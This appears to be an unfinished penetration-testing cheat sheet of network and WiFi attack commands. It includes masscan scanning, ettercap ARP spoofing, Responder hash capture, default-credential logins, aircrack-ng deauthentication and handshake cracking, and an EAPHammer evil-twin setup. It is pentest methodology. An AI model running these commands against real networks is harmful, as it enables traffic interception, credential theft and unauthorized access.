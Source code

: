 WIP

## Segmentation
Scan the top ports in several subnets at once, write output to a file with `tee`:
```bash
masscan -p 20,21-23,25,53,80,110-111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080 10.1.2.0/24 10.1.3.0/24 | tee -a scan_from_subnet.txt
```

## Network Layer security
When connected to the network you can perform a classic Man-in-the-middle attack (ARP spoofing): 
```bash
sudo ettercap -T -M arp:remote /10.1.4.1-220// /10.1.31.1// -w capture_file_name.pcap
```
In this example, we ARP spoof the clients on IP range 10.1.4.1-220 and the default gateway 10.1.31.1. This allows us to capture all network traffic between the hosts and the default gateway.
The captured traffic can be analyzed for interesting information. 

Next step can be to grab credentials/hashes with responder:

```bash
sudo responder -I eth0 -b -w
```

If you obtained hashes you can crack it with several approaches in hashcat:
__Mask__

__Custom crafted wordlist__
[Mentalist](https://github.com/sc0tfree/mentalist) is a great tool to create visually custom wordlists. 

![Mentalist_config](https://user-images.githubusercontent.com/9286611/141745990-642b15a6-0f63-4f32-9de1-f2cd79e4a50d.png)


## Web Interfaces - Default Credentials
Runs eyewitness with input a Nessus file, saves output to folder:
```bash
eyewitness -x Nessus_Scan.nessus -d directory_name
```

You'll find many devices with web interfaces. Many devices have default credentials. In most cases the vendor name and model/software version is listed in the web page. Just use google to find default credentials for it and try some out. In many cases you'll get even into the core network devices of the network with this approach...

![default credentials](https://user-images.githubusercontent.com/9286611/141475684-0efda993-448d-4d88-a426-170b50289cf2.png)


# WiFi
## WEP and WPA2
Use Wifite(2).

Or:
Begin by placing your wireless card into monitor mode on the channel number of the AP:
```bash
airmon-ng start <interface> <AP channel>
Start an Airodump capture, filtering on the AP channel and BSSID, saving the capture to disk:
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
In a new window (keep the previous one running), deauthenticate a connected client to force it to complete the 4-way handshake:
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```
Wait untill you see that it gathered a WPA handshake:
![image](https://user-images.githubusercontent.com/9286611/141474787-1882f975-2b9c-4966-89f6-66fa223f9a78.png)

```bash
Crack the WPA password with Aircrack-ng:
aircrack-ng -w <wordlist> <capture>
Alternatively, if you have and Airolib-ng database, it can be passed to Aircrack:
aircrack-ng -r <db name> <capture>
```


## WPA-Enterprise
Using [EAPHammer](https://github.com/s0lst1c3/eaphammer) to create _evil twin_ attack.
```bash
sudo python3 eaphammer --essid "Name-Wifi_network" --interface wlan0 --creds
```
__Note: most networks use (a combination of 2.4 and) 5 Ghz these days, so "the good old Alfa adapter" won't work in some cases. No clients will connect in that case__

